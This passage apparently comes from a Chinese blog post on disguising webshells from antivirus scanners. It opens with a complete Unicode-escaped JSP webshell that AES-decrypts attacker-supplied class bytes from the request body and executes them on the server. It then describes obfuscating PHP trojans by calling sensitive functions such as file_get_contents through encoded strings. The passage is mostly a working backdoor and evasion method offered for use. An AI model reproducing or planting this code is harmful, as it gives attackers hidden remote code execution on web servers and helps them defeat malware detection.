 ```jsp
<%@page import="\u006a\u0061\u0076\u0061.util.*,\u006a\u0061\u0076\u0061\u0078.\u0063\u0072\u0079\u0070\u0074\u006f.*,\u006a\u0061\u0076\u0061\u0078.\u0063\u0072\u0079\u0070\u0074\u006f.\u0073\u0070\u0065\u0063.*"%>
<%\u0063\u006c\u0061\u0073\u0073\u0020\u0055\u0020\u0065\u0078\u0074\u0065\u006e\u0064\u0073\u0020\u0043\u006c\u0061\u0073\u0073\u004c\u006f\u0061\u0064\u0065\u0072\u007b\u0055\u0028\u0043\u006c\u0061\u0073\u0073\u004c\u006f\u0061\u0064\u0065\u0072\u0020\u0063\u0029\u007b\u0073\u0075\u0070\u0065\u0072\u0028\u0063\u0029\u003b\u007d\u0070\u0075\u0062\u006c\u0069\u0063\u0020\u0043\u006c\u0061\u0073\u0073\u0020\u0067\u0028\u0062\u0079\u0074\u0065\u0020\u005b\u005d\u0062\u0029\u007b\u0072\u0065\u0074\u0075\u0072\u006e\u0020\u0073\u0075\u0070\u0065\u0072\u002e\u0064\u0065\u0066\u0069\u006e\u0065\u0043\u006c\u0061\u0073\u0073\u0028\u0062\u002c\u0030\u002c\u0062\u002e\u006c\u0065\u006e\u0067\u0074\u0068\u0029\u003b\u007d\u007d
%>
<%\u0069\u0066\u0028\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u002e\u0067\u0065\u0074\u0050\u0061\u0072\u0061\u006d\u0065\u0074\u0065\u0072\u0028"pass"\u0029\u0021\u003d\u006e\u0075\u006c\u006c\u0029{\u0053\u0074\u0072\u0069\u006e\u0067\u0020\u006b=\u0028""\u002b\u0055\u0055\u0049\u0044\u002e\u0072\u0061\u006e\u0064\u006f\u006d\u0055\u0055\u0049\u0044\u0028\u0029\u0029\u002e\u0072\u0065\u0070\u006c\u0061\u0063\u0065\u0028"-",""\u0029\u002e\u0073\u0075\u0062\u0073\u0074\u0072\u0069\u006e\u0067\u002816\u0029;\u0073\u0065\u0073\u0073\u0069\u006f\u006e\u002e\u0070\u0075\u0074\u0056\u0061\u006c\u0075\u0065\u0028"u",k\u0029\u003b\u006f\u0075\u0074\u002e\u0070\u0072\u0069\u006e\u0074\u0028\u006b\u0029\u003b\u0072\u0065\u0074\u0075\u0072\u006e\u003b}\u0043\u0069\u0070\u0068\u0065\u0072\u0020\u0063\u003d\u0043\u0069\u0070\u0068\u0065\u0072\u002e\u0067\u0065\u0074\u0049\u006e\u0073\u0074\u0061\u006e\u0063\u0065\u0028"AES"\u0029;\u0063\u002e\u0069\u006e\u0069\u0074\u00282,\u006e\u0065\u0077\u0020\u0053\u0065\u0063\u0072\u0065\u0074\u004b\u0065\u0079\u0053\u0070\u0065\u0063\u0028\u0028\u0073\u0065\u0073\u0073\u0069\u006f\u006e\u002e\u0067\u0065\u0074\u0056\u0061\u006c\u0075\u0065\u0028"u"\u0029\u002b""\u0029\u002e\u0067\u0065\u0074\u0042\u0079\u0074\u0065\u0073\u0028\u0029\u002c"AES"\u0029\u0029;\u006e\u0065\u0077\u0020\u0055\u0028\u0074\u0068\u0069\u0073\u002e\u0067\u0065\u0074\u0043\u006c\u0061\u0073\u0073\u0028\u0029\u002e\u0067\u0065\u0074\u0043\u006c\u0061\u0073\u0073\u004c\u006f\u0061\u0064\u0065\u0072\u0028\u0029\u0029\u002e\u0067\u0028\u0063\u002e\u0064\u006f\u0046\u0069\u006e\u0061\u006c\u0028\u006e\u0065\u0077\u0020\u0073\u0075\u006e\u002e\u006d\u0069\u0073\u0063\u002e\u0042\u0041\u0053\u0045\u0036\u0034\u0044\u0065\u0063\u006f\u0064\u0065\u0072\u0028\u0029\u002e\u0064\u0065\u0063\u006f\u0064\u0065\u0042\u0075\u0066\u0066\u0065\u0072\u0028\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u002e\u0067\u0065\u0074\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0029\u002e\u0072\u0065\u0061\u0064\u004c\u0069\u006e\u0065\u0028\u0029\u0029\u0029\u0029\u002e\u006e\u0065\u0077\u0049\u006e\u0073\u0074\u0061\u006e\u0063\u0065\u0028\u0029\u002e\u0065\u0071\u0075\u0061\u006c\u0073\u0028\u0070\u0061\u0067\u0065\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u0029\u003b%>
```
#### php木马：  
对于php木马的改造，我们需要用到php函数的一个特性：就是php是将函数以string形式传递，我们查看php手册：
![avatar](/Users/volcano/GitHub/volcanohatred.github.io/img/articles/webshell免杀/截屏2020-05-18 下午12.05.39.png)
意思就是我们除了语言结构例如：array()，echo，empty()，eval()，exit()，isset()，list()，print 或 unset()外，其他函数变成字符串也会被当作函数执行，举个栗子：
像冰蝎php脚本里面的敏感语句：

```php
    	$post=file_get_contents("php://input");
```
其实和下面这种写法是等价的：

```php
    	$post="file_get_contents"("php://input");
```
那既然如此，我们可以编写一个字符解码函数，将加密的字符串传入其中然后让它返回解密后的字符串不就可以完美解决问题，我为了和jsp木马看起来统一，就写一个unicode解码函数，然后将敏感函数加密后传入其中即可（理论上什么解密函数都行）：
